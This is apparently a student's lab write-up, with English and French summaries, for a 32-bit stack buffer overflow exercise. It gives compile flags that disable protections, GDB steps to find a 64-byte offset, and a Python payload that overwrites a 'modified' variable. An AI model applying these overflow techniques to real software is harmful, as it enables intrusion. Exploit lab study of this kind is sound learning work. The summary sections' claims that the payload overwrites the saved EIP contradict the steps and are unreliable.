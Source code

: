 # Explanation

1. **Compile**
```bash
gcc -m32 -std=gnu89 -fno-stack-protector -g -z execstack -no-pie Stack1.c -o Stack1
```


2. **Find interesting break point**
- Check for the use of any unsafe function, such as get/strcpy/fgets.
- Find interest address for modified (0x080491eb)
```gdb
gdb -q ./Stack1
disas main
```
![Disas](Images\DisasMain.png)

3. **Offset Calculation**
- Calculate distance between buffer and and modified
```gdb
break *0x080491eb
run < AAAAAAAAAAAAAAAAAAA
```
![Break](Breakpoint.png)

```gdb
print &buffer
print &modified
print (char *)&modified - (char *)&buffer
64 #Now test offset plus payload
```
![Offset](Images\Offset.png)

4. **Build Payload and confirm** 
- Payload will look like
```bash
#From CMD line
./Stack1 "$(python3 -c "print('A'*64 + '\x64\x63\x62\x61')")"

#From GDB
gdb --args ./Stack1 $(python3 -c "print('A'*64 + '\x64\x63\x62\x61')")
break *0x080491eb
p/x modified
```

![Success1](Images\Success1.png)

![Success2](Images\Success2.png)


# What I learned

- **Little-endian awareness:** the target return address must be written in reverse byte order (`0x61626364` ⇒ `"\x64\x63\x62\x61"`), or the CPU will read it backwards.
- **Exact offset still matters:** 64 bytes of padding gets you to the saved EIP just like in _stack0_; anything off by one leaves EIP untouched.
- **Proof of success:** running `./stack1 "$(python3 -c 'print(\"A\"*64 + \"\\x64\\x63\\x62\\x61\")')"` and checking GDB shows EIP = `0x61626364`, confirming the payload landed exactly where intended.

# Ce que j’ai appris

- **Penser little-endian :** l’adresse de retour doit être écrite à l’envers (`0x61626364` ⇒ `"\x64\x63\x62\x61"`), sinon le processeur la lira à rebours.
- **L’offset reste crucial :** 64 octets de bourrage atteignent pile l’EIP sauvegardé ; un seul ocet de plus ou de moins et l’EIP reste intact.
- **Preuve à l’appui :** la commande  
    `./stack1 "$(python3 -c 'print("A"*64 + "\\x64\\x63\\x62\\x61")')"`  
    exécutée sous GDB affiche EIP = `0x61626364`, confirmant que la charge utile tombe exactement au bon endroit.
